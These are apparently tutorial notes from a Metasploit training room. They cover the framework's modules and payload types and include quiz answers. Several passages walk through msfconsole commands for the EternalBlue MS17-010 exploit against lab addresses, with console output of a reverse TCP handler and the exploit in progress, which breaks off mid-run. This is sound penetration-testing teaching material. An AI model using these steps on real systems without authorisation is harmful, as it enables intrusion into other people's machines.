 #+TITLE: Metasploit Introduction

* Intro to Metasploit

  Metasploit is the most widely used exploitation framework. Metasploit is a powerful tool that can support all phases of a penetration testing engagement, from information gathering to post-exploitation.


Metasploit has two main versions:

    Metasploit Pro: The commercial version that facilitates the automation and management of tasks. This version has a graphical user interface (GUI).
    Metasploit Framework: The open-source version that works from the command line. This room will focus on this version, installed on the AttackBox and most commonly used penetration testing Linux distributions.


The Metasploit Framework is a set of tools that allow information gathering, scanning, exploitation, exploit development, post-exploitation, and more. While the primary usage of the Metasploit Framework focuses on the penetration testing domain, it is also useful for vulnerability research and exploit development.


The main components of the Metasploit Framework can be summarized as follows;

    msfconsole: The main command-line interface.
    Modules: supporting modules such as exploits, scanners, payloads, etc.
    Tools: Stand-alone tools that will help vulnerability research, vulnerability assessment, or penetration testing. Some of these tools are msfvenom, pattern_create and pattern_offset. We will cover msfvenom within this module, but pattern_create and pattern_offset are tools useful in exploit development which is beyond the scope of this module.


This room will cover the main components of Metasploit while providing you with a solid foundation on how to find relevant exploits, set parameters, and exploit vulnerable services on the target system. Once you have completed this room, you will be able to navigate and use the Metasploit command line comfortably.


You can deploy and use the AttackBox to complete tasks and answer the questions.

* Main Components of Metasploit

  While using the Metasploit Framework, you will primarily interact with the Metasploit console. You can launch it from the AttackBox terminal using the msfconsole command. The console will be your main interface to interact with the different modules of the Metasploit Framework. Modules are small components within the Metasploit framework that are built to perform a specific task, such as exploiting a vulnerability, scanning a target, or performing a brute-force attack.

Before diving into modules, it would be helpful to clarify a few recurring concepts: vulnerability, exploit, and payload.

  - Exploit: A piece of code that uses a vulnerability present on the target system.
  - Vulnerability: A design, coding, or logic flaw affecting the target system. The exploitation of a vulnerability can result in disclosing confidential information or allowing the attacker to execute code on the target system.
  - Payload: An exploit will take advantage of a vulnerability. However, if we want the exploit to have the result we want (gaining access to the target system, read confidential information, etc.), we need to use a payload. Payloads are the code that will run on the target system.

Modules and categories under each one are listed below. These are given for reference purposes, but you will interact with them through the Metasploit console (msfconsole).

Auxiliary: Any supporting module, such as scanners, crawlers and fuzzers, can be found here.


MODULES (found in kali):
 /usr/share/metasploit-framework/modules
 - auxiliary (scanners, crawlers and fuzzers)
 - encoders
 - evasion
 - exploits
 - nops
 - payloads
 - post


Encoders: Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.

Signature-based antivirus and security solutions have a database of known threats. They detect threats by comparing suspicious files to this database and raise an alert if there is a match. Thus encoders can have a limited success rate as antivirus solutions can perform additional checks.

Evasion: While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software.

On the other hand, “evasion” modules will try that, with more or less success.

Exploits: Exploits, neatly organized by target system.

NOPs: NOPs (No OPeration) do nothing, literally.

They are represented in the Intel x86 CPU family they are represented with 0x90, following which the CPU will do nothing for one cycle. They are often used as a buffer to achieve consistent payload sizes.

Payloads: Payloads are codes that will run on the target system.

Exploits will leverage a vulnerability on the target system, but to achieve the desired result, we will need a payload. Examples could be; getting a shell, loading a malware or backdoor to the target system, running a command, or launching calc.exe as a proof of concept to add to the penetration test report. Starting the calculator on the target system remotely by launching the calc.exe application is a benign way to show that we can run commands on the target system.

Running command on the target system is already an important step but having an interactive connection that allows you to type commands that will be executed on the target system is better. Such an interactive command line is called a "shell". Metasploit offers the ability to send different payloads that can open shells on the target system.


You will see three different directories under payloads: singles, stagers and stages.

    Singles: Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.
    Stagers: Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.
    Stages: Downloaded by the stager. This will allow you to use larger sized payloads.

Metasploit has a subtle way to help you identify single (also called “inline”) payloads and staged payloads.

    generic/shell_reverse_tcp
    windows/x64/shell/reverse_tcp

Both are reverse Windows shells. The former is an inline (or single) payload, as indicated by the “_” between “shell” and “reverse”. While the latter is a staged payload, as indicated by the “/” between “shell” and “reverse”.


Post: Post modules will be useful on the final stage of the penetration testing process listed above, post-exploitation.



If you wish to familiarize yourself further with these modules, you can find them under the modules folder of your Metasploit installation. For the AttackBox these are under /opt/metasploit-framework-5101/modules


 QUESTIONS 

What is the name of the code taking advantage of a flaw on the target system?
A: exploit

What is the name of the code that runs on the target system to achieve the attacker's goal?
A: payload

What are self-contained payloads called?
A: singles

Is "windows/x64/pingback_reverse_tcp" among singles or staged payload?
A: singles

* mfsconsole

  As previously mentioned, the console will be your main interface to the Metasploit Framework. You can launch it using the msfconsole command on your AttackBox terminal or any system the Metasploit Framework is installed on.
msfconsole

           
root@ip-10-10-220-191:~# msfconsole 
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Search can apply complex filters such as search cve:2009 type:exploit, see all the filters with help search

msf6 >

        


Once launched, you will see the command line changes to msf5 (or msf6 depending on the installed version of Metasploit). The Metasploit console (msfconsole) can be used just like a regular command-line shell, as you can see below. The first command is ls which lists the contents of the folder from which Metasploit was launched using the msfconsole command.

It is followed by a ping sent to Google's DNS IP address (8.8.8.8). As we operate from the AttackBox, which is Linux we had to add the -c 1 option, so only a single ping was sent. Otherwise, the ping process would continue until it is stopped using CTRL+C.
Linux Commands in Metasploit

           
msf6 > ls
[*] exec: ls

burpsuite_community_linux_v2021_8_1.sh	Instructions  Scripts
Desktop					Pictures      thinclient_drives
Downloads				Postman       Tools
msf6 > ping -c 1 8.8.8.8
[*] exec: ping -c 1 8.8.8.8

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=109 time=1.33 ms

--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.335/1.335/1.335/0.000 ms
msf6 >

        


It will support most Linux commands, including clear (to clear the terminal screen), but will not allow you to use some features of a regular command line (e.g. does not support output redirection), as seen below.
Failed Output Redirection

           
msf6 > help > help.txt
[-] No such command
msf6 >

        


While on the subject, the help command can be used on its own or for a specific command. Below is the help menu for the set command we will cover soon.
Help feature

           
msf6 > help set
Usage: set [option] [value]

Set the given option to value.  If value is omitted, print the current value.
If both are omitted, print options that are currently set.

If run from a module context, this will set the value in the module's
datastore.  Use -g to operate on the global datastore.

If setting a PAYLOAD, this command can take an index from `show payloads'.

msf6 >

        


You can use the history command to see commands you have typed earlier.
History command

           
msf6 > history
1  use exploit/multi/http/nostromo_code_exec
2  set lhost 10.10.16.17
3  set rport 80
4  options
5  set rhosts 10.10.29.187
6  run
7  exit
8  exit -y
9  version
10  use exploit/multi/script/web_delivery


An important feature of msfconsole is the support of tab completion. This will come in handy later when using Metasploit commands or dealing with modules. For example, if you start typing he and press the tab key, you will see it auto-completes to help.

Msfconsole is managed by context; this means that unless set as a global variable, all parameter settings will be lost if you change the module you have decided to use. In the example below, we have used the ms17_010_eternalblue exploit, and we have set parameters such as RHOSTS. If we were to switch to another module (e.g. a port scanner), we would need to set the RHOSTS value again as all changes we have made remained in the context of the ms17_010_eternalblue exploit. 

Let us look at the example below to have a better understanding of this feature. We will use the MS17-010 “Eternalblue” exploit for illustration purposes.

Once you type the use exploit/windows/smb/ms17_010_eternalblue command, you will see the command line prompt change from msf6 to “msf6 exploit(windows/smb/ms17_010_eternalblue)”. The "EternalBlue" is an exploit allegedly developed by the U.S. National Security Agency (N.S.A.) for a vulnerability affecting the SMBv1 server on numerous Windows systems. The SMB (Server Message Block) is widely used in Windows networks for file sharing and even for sending files to printers. EternalBlue was leaked by the cybercriminal group "Shadow Brokers" in April 2017. In May 2017, this vulnerability was exploited worldwide in the WannaCry ransomware attack.
Using an exploit

           
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >

        

The module to be used can also be selected with the use command followed by the number at the beginning of the search result line.

While the prompt has changed, you will notice we can still run the commands previously mentioned. This means we did not "enter" a folder as you would typically expect in an operating system command line.
Linux commands within a context

           
msf6 exploit(windows/smb/ms17_010_eternalblue) > ls
[*] exec: ls

burpsuite_community_linux_v2021_8_1.sh	Instructions  Scripts
Desktop					Pictures      thinclient_drives
Downloads				Postman       Tools
msf6 exploit(windows/smb/ms17_010_eternalblue) >

        


The prompt tells us we now have a context set in which we will work. You can see this by typing the show options command.
Show options

           
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.220.191    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >

        


This will print options related to the exploit we have chosen earlier. The show options command will have different outputs depending on the context it is used in. The example above shows that this exploit will require we set variables like RHOSTS and RPORT. On the other hand, a post-exploitation module may only need us to set a SESSION ID (see the screenshot below). A session is an existing connection to the target system that the post-exploitation module will use.
Options for a post-exploitation module

           
msf6 post(windows/gather/enum_domain_users) > show options

Module options (post/windows/gather/enum_domain_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HOST                      no        Target a specific host
   SESSION                   yes       The session to run this module on.
   USER                      no        Target User for NetSessionEnum

msf6 post(windows/gather/enum_domain_users) >

        


The show command can be used in any context followed by a module type (auxiliary, payload, exploit, etc.) to list available modules. The example below lists payloads that can be used with the ms17-010 Eternalblue exploit.
The show payloads command

           
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   generic/custom                                               manual  No     Custom Payload
   1   generic/shell_bind_tcp                                       manual  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                    manual  No     Generic Command Shell, Reverse TCP Inline
   3   windows/x64/exec                                             manual  No     Windows x64 Execute Command
   4   windows/x64/loadlibrary                                      manual  No     Windows x64 LoadLibrary Path
   5   windows/x64/messagebox                                       manual  No     Windows MessageBox x64
   6   windows/x64/meterpreter/bind_ipv6_tcp                        manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   7   windows/x64/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support 

        


If used from the msfconsole prompt, the show command will list all modules.

The use and show options commands we have seen so far are identical for all modules in Metasploit.

You can leave the context using the back command.
The back command

           
msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > 

        


Further information on any module can be obtained by typing the info command within its context.
The info command

           
msf6 exploit(windows/smb/ms17_010_eternalblue) > info

       Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     Module: exploit/windows/smb/ms17_010_eternalblue
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Average
  Disclosed: 2017-03-14

Provided by:
  Sean Dillon 
  Dylan Davis 
  Equation Group
  Shadow Brokers
  thelightcosine

Available targets:
  Id  Name
  --  ----
  0   Windows 7 and Server 2008 R2 (x64) All Service Packs

Check supported:
  Yes

Basic options:
  Name           Current Setting  Required  Description
  ----           ---------------  --------  -----------
  RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
  RPORT          445              yes       The target port (TCP)
  SMBDomain      .                no        (Optional) The Windows domain to use for authentication
  SMBPass                         no        (Optional) The password for the specified username
  SMBUser                         no        (Optional) The username to authenticate as
  VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
  VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload information:
  Space: 2000

Description:
  This module is a port of the Equation Group ETERNALBLUE exploit, 
  part of the FuzzBunch toolkit released by Shadow Brokers. There is a 
  buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size is 
  calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error 
  where a DWORD is subtracted into a WORD. The kernel pool is groomed 
  so that overflow is well laid-out to overwrite an SMBv1 buffer. 
  Actual RIP hijack is later completed in 
  srvnet!SrvNetWskReceiveComplete. This exploit, like the original may 
  not trigger 100% of the time, and should be run continuously until 
  triggered. It seems like the pool will get hot streaks and need a 
  cool down period before the shells rain in again. The module will 
  attempt to use Anonymous login, by default, to authenticate to 
  perform the exploit. If the user supplies credentials in the 
  SMBUser, SMBPass, and SMBDomain options it will use those instead. 
  On some systems, this module may cause system instability and 
  crashes, such as a BSOD or a reboot. This may be more likely with 
  some payloads.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://cvedetails.com/cve/CVE-2017-0143/
  https://cvedetails.com/cve/CVE-2017-0144/
  https://cvedetails.com/cve/CVE-2017-0145/
  https://cvedetails.com/cve/CVE-2017-0146/
  https://cvedetails.com/cve/CVE-2017-0147/
  https://cvedetails.com/cve/CVE-2017-0148/
  https://github.com/RiskSense-Ops/MS17-010

Also known as:
  ETERNALBLUE

msf6 exploit(windows/smb/ms17_010_eternalblue) > 

        


Alternatively, you can use the info command followed by the module’s path from the msfconsole prompt (e.g. info exploit/windows/smb/ms17_010_eternalblue). Info is not a help menu; it will display detailed information on the module such as its author, relevant sources, etc.

Search

One of the most useful commands in msfconsole is search. This command will search the Metasploit Framework database for modules relevant to the given search parameter. You can conduct searches using CVE numbers, exploit names (eternalblue, heartbleed, etc.), or target system.

The search command

           
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index, for example use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 >

        


The output of the search command provides an overview of each returned module. You may notice the “name” column already gives more information than just the module name. You can see the type of module (auxiliary, exploit, etc.) and the category of the module (scanner, admin, windows, Unix, etc.). You can use any module returned in a search result with the command use followed by the number at the beginning of the result line. (e.g. use 0 instead of use auxiliary/admin/smb/ms17_010_command)


Another essential piece of information returned is in the “rank” column. Exploits are rated based on their reliability. The table below provides their respective descriptions.

Source: https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking


You can direct the search function using keywords such as type and platform.


For example, if we wanted our search results to only include auxiliary modules, we could set the type to auxiliary. The screenshot below shows the output of the search type:auxiliary telnet command.


Search by module type

           
msf6 > search type:auxiliary telnet

Matching Modules
================

   #   Name                                                Disclosure Date  Rank    Check  Description
   -   ----                                                ---------------  ----    -----  -----------
   0   auxiliary/admin/http/dlink_dir_300_600_exec_noauth  2013-02-04       normal  No     D-Link DIR-600 / DIR-300 Unauthenticated Remote Command Execution
   1   auxiliary/admin/http/netgear_r6700_pass_reset       2020-06-15       normal  Yes    Netgear R6700v3 Unauthenticated LAN Admin Password Reset
   2   auxiliary/dos/cisco/ios_telnet_rocem                2017-03-17       normal  No     Cisco IOS Telnet Denial of Service
   3   auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof        2010-12-21       normal  No     Microsoft IIS FTP Server Encoded Response Overflow Trigger
   4   auxiliary/scanner/ssh/juniper_backdoor              2015-12-20       normal  No     Juniper SSH Backdoor Scanner
   5   auxiliary/scanner/telnet/brocade_enable_login                        normal  No     Brocade Enable Login Check Scanner
   6   auxiliary/scanner/telnet/lantronix_telnet_password                   normal  No     Lantronix Telnet Password Recovery
   7   auxiliary/scanner/telnet/lantronix_telnet_version                    normal  No     Lantronix Telnet Service Banner Detection
   8   auxiliary/scanner/telnet/satel_cmd_exec             2017-04-07       normal  No     Satel Iberia SenNet Data Logger and Electricity Meters Command Injection Vulnerability
   9   auxiliary/scanner/telnet/telnet_encrypt_overflow                     normal  No     Telnet Service Encryption Key ID Overflow Detection
   10  auxiliary/scanner/telnet/telnet_login                                normal  No     Telnet Login Check Scanner
   11  auxiliary/scanner/telnet/telnet_ruggedcom                            normal  No     RuggedCom Telnet Password Generator
   12  auxiliary/scanner/telnet/telnet_version                              normal  No     Telnet Service Banner Detection
   13  auxiliary/server/capture/telnet                                      normal  No     Authentication Capture: Telnet


Interact with a module by name or index, for example use 13 or use auxiliary/server/capture/telnet

msf6 >

        


Please remember that exploits take advantage of a vulnerability on the target system and may always show unexpected behavior. A low-ranking exploit may work perfectly, and an excellent ranked exploit may not, or worse, crash the target system.


* Working with Modules

  You can launch the target machine attached to this room to replicate the examples shown below. Any Metasploit version 5 or 6 will have menus and screens similar to those shown here so you can use the AttackBox or any operating system installed on your local computer.

Once you have entered the context of a module using the use command followed by the module name, as seen earlier, you will need to set parameters. The most common parameters you will use are listed below. Remember, based on the module you use, additional or different parameters may need to be set. It is good practice to use the show options command to list the required parameters.

All parameters are set using the same command syntax:
set PARAMETER_NAME VALUE

Before we proceed, remember always to check the msfconsole prompt to ensure you are in the right context. When dealing with Metasploit, you may see five different prompts:

    The regular command prompt: You can not use Metasploit commands here.

Regular command prompt

           
root@ip-10-10-XX-XX:~#

        

    The msfconsole prompt: msf5 (or msf6 depending on your installed version) is the msfconsole prompt. As you can see, no context is set here, so context-specific commands to set parameters and run modules can not be used here.

Metasploit command prompt

           
msf5 >

        


    A context prompt: Once you have decided to use a module and used the set command to chose it, the msfconsole will show the context. You can use context-specific commands (e.g. set RHOSTS 10.10.x.x) here.

A context command prompt

           
msf5 exploit(windows/smb/ms17_010_eternalblue) >

        


    The Meterpreter prompt: Meterpreter is an important payload we will see in detail later in this module. This means a Meterpreter agent was loaded to the target system and connected back to you. You can use Meterpreter specific commands here.

A Meterpreter command prompt

           
meterpreter >

        

    A shell on the target system: Once the exploit is completed, you may have access to a command shell on the target system. This is a regular command line, and all commands typed here run on the target system.

A Meterpreter command prompt

           
C:\Windows\system32>

        

As mentioned earlier, the show options command will list all available parameters.
The show options command

           
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >

        


As you can see in the screenshot above, some of these parameters require a value for the exploit to work. Some required parameter values will be pre-populated, make sure you check if these should remain the same for your target. For example, a web exploit could have an RPORT (remote port: the port on the target system Metasploit will try to connect to and run the exploit) value preset to 80, but your target web application could be using port 8080.

In this example, we will set the RHOSTS parameter to the IP address of our target system using the set command.

A Meterpreter command prompt

           
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >

        


Once you have set a parameter, you can use the show options command to check the value was set correctly.


Parameters you will often use are:

    RHOSTS: “Remote host”, the IP address of the target system. A single IP address or a network range can be set. This will support the CIDR (Classless Inter-Domain Routing) notation (/24, /16, etc.) or a network range (10.10.10.x – 10.10.10.y). You can also use a file where targets are listed, one target per line using file:/path/of/the/target_file.txt, as you can see below.

    RPORT: “Remote port”, the port on the target system the vulnerable application is running on.
    PAYLOAD: The payload you will use with the exploit.
    LHOST: “Localhost”, the attacking machine (your AttackBox or Kali Linux) IP address.
    LPORT: “Local port”, the port you will use for the reverse shell to connect back to. This is a port on your attacking machine, and you can set it to any port not used by any other application.
    SESSION: Each connection established to the target system using Metasploit will have a session ID. You will use this with post-exploitation modules that will connect to the target system using an existing connection.


You can override any set parameter using the set command again with a different value. You can also clear any parameter value using the unset command or clear all set parameters with the unset all command.

The unset all command

           
msf5 exploit(windows/smb/ms17_010_eternalblue) > unset all
Flushing datastore...
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >

        


You can use the setg command to set values that will be used for all modules. The setg command is used like the set command. The difference is that if you use the set command to set a value using a module and you switch to another module, you will need to set the value again. The setg command allows you to set the value so it can be used by default across different modules. You can clear any value set with setg using unsetg.


The example below uses the following flow;

    We use the ms17_010_eternalblue exploitable
    We set the RHOSTS variable using the setg command instead of the set command
    We use the back command to leave the exploit context
    We use an auxiliary (this module is a scanner to discover MS17-010 vulnerabilities)
    The show options command shows the RHOSTS parameter is already populated with the IP address of the target system.

Navigating modules

           
msf5 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > setg rhosts 10.10.165.39
rhosts => 10.10.165.39
msf5 exploit(windows/smb/ms17_010_eternalblue) > back
msf5 > use auxiliary/scanner/smb/smb_ms17_010 
msf5 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                                                Required  Description
   ----         ---------------                                                --------  -----------
   CHECK_ARCH   true                                                           no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                                                           no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                                                          no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /opt/metasploit-framework-5101/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS       10.10.165.39                                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT        445                                                            yes       The SMB service port (TCP)
   SMBDomain    .                                                              no        The Windows domain to use for authentication
   SMBPass                                                                     no        The password for the specified username
   SMBUser                                                                     no        The username to authenticate as
   THREADS      1                                                              yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/smb/smb_ms17_010) >

        


The setg command sets a global value that will be used until you exit Metasploit or clear it using the unsetg command.


Using modules

Once all module parameters are set, you can launch the module using the exploit command. Metasploit also supports the run command, which is an alias created for the exploit command as the word exploit did not make sense when using modules that were not exploits (port scanners, vulnerability scanners, etc.).


The exploit command can be used without any parameters or using the “-z” parameter.

The exploit -z command will run the exploit and background the session as soon as it opens.

The exploit -z command

           
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit -z

[*] Started reverse TCP handler on 10.10.44.70:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
